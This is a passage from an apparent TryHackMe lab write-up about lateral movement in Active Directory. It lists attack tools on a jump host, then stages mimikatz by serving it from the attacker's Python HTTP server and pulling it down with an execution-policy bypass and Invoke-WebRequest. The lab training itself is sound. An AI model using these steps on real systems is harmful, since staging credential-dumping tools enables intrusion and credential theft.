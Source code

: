 ```
ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com 
```

Inside of the ssh session, we need to go to `C:\tools`, as it says `mimikatz` is on here:

```
za\t2_felicia.dean@THMJMP2 C:\tools>dir
 Volume in drive C has no label.
 Volume Serial Number is F4B0-FCB9

 Directory of C:\tools

05/16/2025  10:32 AM    <DIR>          .
05/16/2025  10:32 AM    <DIR>          ..
06/14/2022  08:27 PM            45,272 nc64.exe
04/19/2022  09:17 PM         1,078,672 PsExec64.exe
05/16/2025  10:33 AM                 0 runas
03/16/2022  05:19 PM           906,752 SharpHound.exe
06/19/2022  05:38 AM    <DIR>          socat
               4 File(s)      2,030,696 bytes
               3 Dir(s)   8,117,424,128 bytes free
```

Since mimikatz is not on the machine (For some reason), we need to install it ourselves, let's get it in our linux machine first:

```bash
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip -O 'mimikatz.zip'
```

Once we got `mimikatz`, we need to do the following:

```powershell
# Start python server
python3 -m http.server

# Download it in our ssh session and unzip it
powershell.exe -ExecutionPolicy Bypass
Invoke-WebRequest 'http://10.50.46.98:8000/mimikatz.zip' -OutFile .\mimikatz.zip

Expand-Archive .\mimikatz.zip
```

Once we do all that, we can see the `mimikatz.exe` file inside of `mimikatz/x64`:

![Pasted image 20250516143313.png](../../../IMAGES/Pasted%20image%2020250516143313.png)
